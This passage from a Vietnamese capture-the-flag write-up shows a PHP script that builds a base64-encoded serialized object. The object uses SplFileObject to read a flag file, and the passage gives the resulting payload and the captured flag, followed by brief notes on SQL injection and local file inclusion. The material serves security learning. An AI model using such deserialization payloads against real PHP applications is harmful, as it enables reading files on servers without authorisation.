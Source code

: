 ```php
    <?php

    class do_nothing{
        public function __construct(){
            $this->a = "a"; 
            $this->b = "SplFileObject";
        }
    }

    class main{
        public function __construct(){
            //point to class do_nothing
            $this->class = new do_nothing();
            $this->param = "./ahyeah_flag_here_cat_me_plss/flag.php";
        }
    }

    //make obj point to method main
    $obj = new main();

    //triger method 
    echo (base64_encode((serialize($obj))));

    ?>
```

Ta sẽ được payload:
`payload=Tzo0OiJtYWluIjoyOntzOjU6ImNsYXNzIjtPOjEwOiJkb19ub3RoaW5nIjoyOntzOjE6ImEiO3M6MToiYSI7czoxOiJiIjtzOjEzOiJTcGxGaWxlT2JqZWN0Ijt9czo1OiJwYXJhbSI7czozOToiLi9haHllYWhfZmxhZ19oZXJlX2NhdF9tZV9wbHNzL2ZsYWcucGhwIjt9`
**Lưu ý:** Flag sẽ không hiện thị lên, bấm F12 để view source ta sẽ thấy flag
`flag = 'FPTUHacking{Ch4ll nhu n4y c0 d0n kh0ng h1h1 !!!}`

## SQL injection

- Tổng quan: là 1 trong những lỗi phổ biến của sql, chèn 1 đoạn truy vấn từ máy khách đến ứng dụng, mục đích nhằm khai thác dữ liệu hoặc sửa đổi cơ sở dữ liệu, chi tiết tại [đây](https://owasp.org/www-community/attacks/SQL_Injection)
- Nhận diện: có sử dụng SQL, tham khảo thêm tại [đây](https://viblo.asia/p/huong-dan-test-sql-injection-vi-du-va-cach-phong-ngua-cac-cuoc-tan-cong-sql-injection-3P0lPYap5ox)

## LFI

- LFI hay Local FIle Inclusion, cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web php.
- Nhận diện: trong source có `include`, `require`, `include_once`, `require_once`.
- Kỹ thuật kết hợp thêm: [`file path travelsal`](https://portswigger.net/web-security/file-path-traversal).

### [HCTF 2018]WarmUp

